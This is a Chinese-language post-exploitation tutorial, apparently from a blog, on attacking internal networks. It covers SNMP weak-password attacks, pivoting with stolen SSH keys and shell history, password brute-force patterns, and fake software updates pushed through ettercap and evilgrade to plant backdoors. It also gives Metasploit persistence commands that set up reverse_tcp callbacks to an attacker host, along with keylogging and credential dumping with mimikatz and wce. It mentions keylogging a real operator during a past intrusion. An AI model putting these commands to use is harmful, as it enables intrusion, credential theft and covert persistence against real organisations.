 ## Lan 

1. nmap -sP 172.19.16.1/24   发现扫描主机.

2. 查看 host 获取局域网信息.

3. 直接攻击网段路由或交换机，简单绘制内网的结构
（我在从TCL某漏洞看内网渗透教学分享之内网信息探测和后渗透准备中就是获取了cisco路由的privilege15权限，得到了内网结构，进一步进行跨vlan攻击）


4. 多尝试交换机snmp弱口令，一旦成功，内网结构清晰


	•	关于snmp渗透  
	什么是snmp  
	使用了snmp管理的设备，只需要community string即可，所以针对这个string爆破或者社工都是可行的，默认public/private  
	首先进行161端口扫描，发现snmp开放情况，通过弱口令查看设备信息，在oid中读取设备密码  
	￼
	•	  
	例子：中国移动集团华为三层交换SNMP漏洞，可获取管理帐号密码，已成功登录  
	可以通过这个nmap和msf脚本进行自动攻击h3c-pt-tools
	•	尝试从主机的用户目录或者管理运维邮箱寻找敏感信息(某次渗透即是keylogger运维后在测试机桌面获取到拓扑和网段)  
	￼
	•	
	•	通过resolv.conf找到内网dns服务器，或者字典穷举dns
	•	注意分析用户的.bash_history，一般可以分析出用户的使用习惯，纪录等,获取/.shh/，尝试配合history的连接纪录直接通过密钥登陆其他机器
0x03 内网渗透的常见攻击技巧

•	通过之前的信息收集和探测，判断出主要的业务机器，如OA，dbserver，利用ssh信任，连入机器后导出员工的userlist，做成针对性的字典，大部分内网的安全性都是脆弱的，且最容易出问题的就是口令安全（大公司也不例外）  
%username%1  
%username%12  
%username%123  
%username%1234  
%username%12345  
%username%123456

主要对ssh,dbserver,vnc,ftp进行爆破
￼
•	对开了web service的server进行常规渗透，有可以减少工作量的办法就是先对机器批量识别banner，通过banner判断出cms或中间件，直接利用exp
•	中间人攻击
常用ettercap，不建议做arp的mitm，可以尝试dhcp mitm或者icmp mitm
也可以猥琐一点，劫持插件，攻击网关，或者利用evilgrade去伪造软件更新(如notepad++)，然后捆绑上后门，直接打下工作机器，进入办公网
￼
￼
简单配置后用msf生成后门，start即可配合ettercap使用伪造软件更新了
￼
•	常见服务漏洞攻击  
smb/ms08067/ipc$/NetBIOS…………
但是在针对这些比较古老的漏洞攻击时，很可能有AV拦截，所以在不同场景遇到的坑都不一样
比如之前在西电DM牛告诉我，有AV，如果直接利用psexec返回会话，即会拦截，这时就可以利用powershell来bypass AVPowershell tricks::Bypass AV
0x04 后渗透准备和扩大战果

一次完美的内网渗透肯定不是能够一次性完成的，因为整个过程需要管理员的"配合"（口胡。。。）所以后渗透准备时很有必要的
1. 后门准备

msf的后门已经不错，只需要稍加改造就能很好满足我们的需求
普通msfpayload生成的后门不是持续性的，不利于我们下次继续工作，所以需要一个持续性后门
msf的持续性后门有两种，通过服务启动(metsvc)和通过启动项启动(persistence)
通过服务的后门有个弊端，服务名称是meterpreter，利用方式是： 上传后门，通过metsvc安装服务
1
2
3
4
5
meterpreter \> run metsvc
...(设定端口，并且上传后门文件)
use exploit/multi/handler
set PAYLOAD windows/metsvc_bind_tcp
exploit
通过启动项的利用方式：
1
2
3
4
5
meterpreter \> run persistence -X -i 10 -p port -r hostip
 
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
当然，直接生成的后门有可能会被杀，所以这里我推荐一个很不错的工具，veil，之前再一次小型apt中用这个生成了的后门直接bypass了360
linux下有两个常用的后门
mafix rookit和Cymothoa，后者听说可以克隆root用户，不过大部分的backdoor基本都相当于一个加密nc，会新开端口，所以如果webshell存活，可以直接考虑用webshell维持权限



2. 键盘记录

keylogger在内网渗透过程中（尤其是比较大的内网），起到很关键的作用，因为搞定一个密码，有可能就搞定了一个网段
ixkeylog是我常用的一个，linux\>=2.63均可使用
或者使用meterpreter会话的自带键盘记录功能
keyscan_start
keyscan_dump
￼
￼
用meterpreter有个好处，就是在win中可以做内存注入，不会创建进程
这里说一个小tips，如果觉得keylogger动作大，可以进系统后把一些你需要的管理工具，如navicat，putty，PLSQL，SecureCRT之类全部选成记住密码

3. hash

mimikatz，不用多说，利用meterpreter可以直接load模块
Quarks PwDump
wce
0x05 something else

内网渗透涉及的面很广，本文主要说到的是一些很简单的问题和常规的思路
尚未谈到的 域渗透 打印机 办公网嗅探 入侵日志清理等等
如果有机会，日后慢慢补全



